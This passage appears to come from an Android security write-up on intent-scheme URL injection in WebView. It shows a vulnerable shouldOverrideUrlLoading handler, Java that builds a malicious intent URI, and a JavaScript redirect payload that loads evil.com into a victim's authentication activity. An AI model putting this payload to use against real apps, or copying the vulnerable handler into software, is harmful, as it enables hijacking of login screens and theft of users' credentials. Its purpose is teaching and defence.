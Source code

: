 ```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

The point here is that the `shouldOverrideUrlLoading(...)` method of class `WebViewClient` is called each time WebView tries to load a new link, but gives the app the option of adding a custom handler.

To exploit this vulnerability the attacker needs to create a WebView redirect to a specially prepared intent-scheme URL. Example of URL creation

```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // outputs "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end"
```

Example attack

```java
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end";
```

This version contains **several restrictions compared to the classic versio**n of the vulnerability:

* Embedded `Parcelable` and `Serializable` objects cannot be cast to string (they will be ignored)
* The insecure flags `Intent.FLAG_GRANT_READ_URI_PERMISSION` and `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` are **ignored** when `Intent.parseUri(...)` is called. The parser will only leave them if the `Intent.URI_ALLOW_UNSAFE` (`startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))` flag is set, which is very rare

Many developers still forget to carry out a complete filtering of intents received via WebView

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if("intent".equals(uri.getScheme())) {
    	Intent intent = Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME);
    	intent.addCategory("android.intent.category.BROWSABLE");
    	intent.setComponent(null);
      startActivity(intent);
      return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```
